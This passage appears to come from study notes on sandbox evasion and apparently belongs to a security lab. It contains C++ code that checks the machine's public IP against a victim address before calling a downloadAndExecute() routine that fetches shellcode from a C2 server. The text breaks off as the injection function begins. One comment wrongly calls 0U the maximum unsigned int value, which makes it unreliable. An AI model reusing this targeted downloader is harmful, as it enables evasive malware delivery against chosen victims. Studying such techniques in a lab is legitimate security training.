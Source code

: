 ```cpp
    while (true) {
        stream->Read(buff, 35, &bytesRead);
        if (0U == bytesRead) { // What is 0U? **maximum value of an object of type unsigned int**
            break;
        }
        s.append(buff, bytesRead);
    }
    
    // Compare if the string is equal to the targeted victim's IP. If true, return the check is successful. Else, fail the check.
    // "<Victim_IP>" I guess is the expected IP address assuming proper reconaissance was done and location of the target is known.
    if (s == "VICTIM_IP") {
        return TRUE;
    }
    else { return FALSE; }
}
```

	Breakdown:
	1. Declare the required variables mentioned above.
	2. Open an internet stream with the "URLOpenBlockingStreamA" function to "ifconfig.me/ip" to check the current IP address.
	3. Write the data stream returned from the URLOpenBlockingStreamA function to the memory.
	4. Append the data from the memory buffer to a string variable.
	5. Check and see if the string data is equal to the Victim's IP address.
	6. If "True", return TRUE; otherwise return FALSE.

- Now, we must modify our main function so that we can leverage our newly created function:

```cpp
int main(){
    if(checkIP() == TRUE){
        downloadAndExecute();
        return 0;
    }
    else {
        cout << "HTTP/418 - I'm a Teapot!";
        return 0;
    }
}
```

- The code above invokes the new function, `checkIP()`, and if the IP Address returns `TRUE`, then invoke the **downloadAndExecute()** function to call the shellcode from our C2 server.
- If `false`, return "`HTTP/418 - I'm a teapot!`".

<u>Source Code</u>:

```cpp
#include <iostream>
#include <Windows.h>
#include <tlhelp32.h>
#include <locale>
#include <string>
#include <urlmon.h>
#include <cstdio>
#pragma comment(lib, "urlmon.lib")

using namespace std;

int downloadAndExecute(){

    HANDLE hProcess;
    SIZE_T dwSize = YOURSHELLCODESIZE;
    DWORD flAllocationType = MEM_COMMIT | MEM_RESERVE;
```